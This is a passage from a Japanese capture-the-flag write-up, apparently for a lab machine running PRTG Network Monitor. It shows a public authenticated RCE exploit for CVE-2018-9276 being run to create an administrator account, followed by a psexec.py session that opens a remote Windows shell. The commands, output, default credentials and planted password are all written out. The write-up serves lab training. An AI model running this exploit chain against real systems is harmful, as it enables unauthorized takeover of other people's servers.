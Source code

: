 1 つ目を使えたらよかったのですが、version が違いますね。。

色々探していたところ以下の exploit を見つけました。
https://github.com/M4LV0/PRTG-Network-Monitor-RCE

## exploitを使う
適当な名前で上記から `prtg-exploit.sh` をコピペしてきて使用します。

```
kali@kali:~$ chmod 744 prtg-exploit.sh 
kali@kali:~$ ./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"

[+]#########################################################################[+] 
[*] PRTG RCE script by M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] https://github.com/M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and add it to the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'                                                                           

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

## shellにつなぐ
kali に入っている `psexec.py` を使用します。

psexec については以下のページが参考になりました。
[PsExecを使ってリモートのWindows PC上のプログラムを実行する](https://www.atmarkit.co.jp/ait/articles/1205/11 ews147.html)

```
kali@kali:/usr/share/doc/python3-impacket/examples$ python3 psexec.py pentest:'P3nT3st!'@10.10.10.152
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file HLrJbIWj.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service OZxS on 10.10.10.152.....
[*] Starting service OZxS.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>ls
```